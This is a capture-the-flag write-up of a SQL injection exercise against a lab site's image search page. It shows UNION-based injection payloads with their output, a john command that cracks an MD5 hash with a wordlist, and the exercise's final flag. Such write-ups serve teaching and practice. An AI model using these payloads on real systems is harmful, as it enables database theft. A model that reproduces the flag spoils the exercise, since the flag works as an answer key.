 # SQL injection
- a type of attack where a malicious user attempts to pass input that alters the final SQL query sent by the web application to the database
- the attacker first injects SQL code and then manipulates the web application logic, either by changing the original query or executing a completely new one
- https://book.hacktricks.xyz/pentesting-web/sql-injection

<b>keywords</b>: SQL basic<br>
<b>attacked site</b>: http://borntosec.42/?page=images

## Exploit
On the images page, there’s a search bar similar to the one on the members page. After some initial examination, we can see that we are interacting with the same database but a different schema:
``` sql
1 OR 1=1 UNION SELECT 1,database()-- -
```
└─     Output:
```
ID: 1 OR 1=1 UNION SELECT 1,database()-- - 
Title: Member_images
Url : 1
```
Next, we check the columns that this table offers:
``` sql
1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS-- -
```
└─     Filtered output:
```
[...]
ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
Title: list_images
Url : id
[...]
```
Now we know that the <code>list_images</code> table includes these columns:
```
id, url, title, comment
```
Enumerating the columns manually would be time-consuming, so we concatenate the columns to display them in the second column:
``` sql
1 OR 1=1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images
```
└─     Output:
```
ID: 1 OR 1=1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 	1928e8083cf461a51303633093573c46
Url : 1
```
Given the hashed password and the encryption method, we can directly brute-force it using <code>john</code>:
``` shell
└─$ john sql2_hash.txt --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
albatroz         (?)     
1g 0:00:00:00 DONE (2024-08-08 23:35) 5.000g/s 5166Kp/s 5166Kc/s 5166KC/s aldaya..alamo7
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```
Finally, we hash the password using SHA-256:
``` shell
└─$ echo -n "albatroz" | sha256sum                                         
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188  -
```
## Flag
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
